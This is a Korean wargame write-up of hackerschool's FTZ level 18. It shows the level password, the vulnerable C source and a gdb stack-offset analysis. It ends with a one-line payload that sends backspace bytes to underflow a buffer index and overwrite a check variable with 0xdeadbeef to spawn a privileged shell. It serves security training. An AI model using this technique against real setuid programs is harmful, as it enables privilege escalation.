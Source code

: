 ```yaml
---
title: BOF/ ftz-level18
tags: ftz
---
```


18번 포스팅 시작합니다.

FTZ란 Free Training Zone의 약자로 hackerschool에서 배포하는 워게임입니다.  
총 20문제로 구성되어 있으며 각 문제를 격파하여 다음 레벨의 패스워드를 얻는 형식입니다.  
문제를 격파하고 다음 레벨의 bash를 획득하였다면 my-pass로 패스워드를 확인할 수 있습니다.  

사용 linux 명령어  
ls - 파일 내역 출력
cat - 파일 내용 확인  
gcc - gcc컴파일러로 컴파일하도록 하는 명령 
vim - text editor  
cp - 파일 또는 디렉터리 복사 명령  
export - 환경변수 등록 명령  
getenv - 환경변수를 모두 보는 명령  

 [send me email](mailto:jewel7492@gmail.com) if you have any questions.

<!--more-->

---
### FTZ Level 18
**ID : level18**  
**PASSWD : why did you do it**         

<br />
{% highlight C linenos %}  
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main() {
	char string[100];
	int check;
	int x = 0;
	int count = 0;
	fd_set fds;
	printf("Enter your command: ");
	fflush(stdout);
	while (1) {
		if (count >= 100)
			printf("what are you trying to do?\n");
		if (check == 0xdeadbeef)
			shellout();
		else {
			FD_ZERO(&fds);
			FD_SET(STDIN_FILENO, &fds);

			if (select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
			{
				if (FD_ISSET(fileno(stdin), &fds))
				{
					read(fileno(stdin), &x, 1);
					switch (x)
					{
					case '\r':
					case '\n':
						printf("\a");
						break;
					case 0x08:
						count--;
						printf("\b \b");
						break;
					default:
						string[count] = x;
						count++;
						break;
					}
				}
			}
		}
	}
}

void shellout(void)
{
	setreuid(3099, 3099);
	execl("/bin/sh", "sh", NULL);
}

{% endhighlight %}  
<br />
level11부터는 attackme라는 파일이 존재하며 hint는 attackme의 소스가 제공된다.  

**소스분석**  
check를 deadbeef로 변조하면 쉘을 실행시켜주는 코드이다.  
read(fileno(stdin), &x, 1); 이부분에서 x를 입력받아 switch문으로 이어진다.  
x가 0x08이라면 count가 감소되고 default에서 증가한다.  
count는 string의 index에 접근하기 위해 사용되며 string[count]에 x를 저장할 수 있다.  

**스택은 높은주소에서 낮은 주소로 자라기 때문에 check가 string보다 낮은 주소에 있으므로 일반적인 buffer over flow가 어렵다.**
0x08을 계속해서 전달한다면 count가 감소되어 string[0]보다 앞의 메모리에 접근할 수 있고 이는 check변수까지 접근이 가능하다.  
따라서 count값을 계속해서 감소시켜 check까지 접근하고 deadbeef값을 대입하면 쉘을 획득할 수 있다.  

나머지 file descriptor부분은 크게 중요하진 않은 것 같다.  

#### ftz에는 ASLR(메모리 보호기법)이 걸려있다.  
**ASLR은 프로그램을 실행할 때 마다 메모리 주소가 변경되는 메모리 보호기법**  

<br />
권한문제가 없도록 tmp디렉터리에 attackme를 복사하고 attackme의 메모리 구조를 파악하기 위해 gdb를 사용하여 intel방식으로 디스어셈블 한다.   
check에 접근하기 위해서는 check와 string사이의 거리만큼 count를 감소시켜야 한다.  
check와 string사이의 거리를 파악하기 위한 디스어셈블.  


**어셈블리 분석**  
![그림1](/assets/ftz/level18/1.PNG)  
deadbeef와 비교연산을 하고 있음을 알 수 있고 이는 check의 위치가 ebp-104임을 알 수 있다.  
(소스코드에서 check가 deadbeef와 비교연산 하기 때문에)  

<br />
![그림2](/assets/ftz/level18/2.PNG)  
ebp-252를 0x8과 비교하여 같다면 main+481로 jump하고 그렇지 않다면 main+499로 jump한다.  
소스코드 상에서 x와 0x8을 비교하는 부분이 있고 아닌경우 defalut로 가기 때문에 main+499는 switch문에서 default로 jump함을 알 수 있다.  
따라서 string의 위치는 ebp-100임을 알 수 있다.  

<br />
![그림3](/assets/ftz/level18/3.PNG)  
check와 string사이의 거리가 dummy값 없이 4Byte임을 알았으니 4개의 0x08을 대입하여 string앞의 메모리에 접근, check를 deadbeef로 변조하는  
페이로드를 작성하여 공격을 성공시킨다.  

#### 페이로드
(python -c "print '\x08'*4 + '\xef\xbe\xad\xde'"; cat) | ./attackme
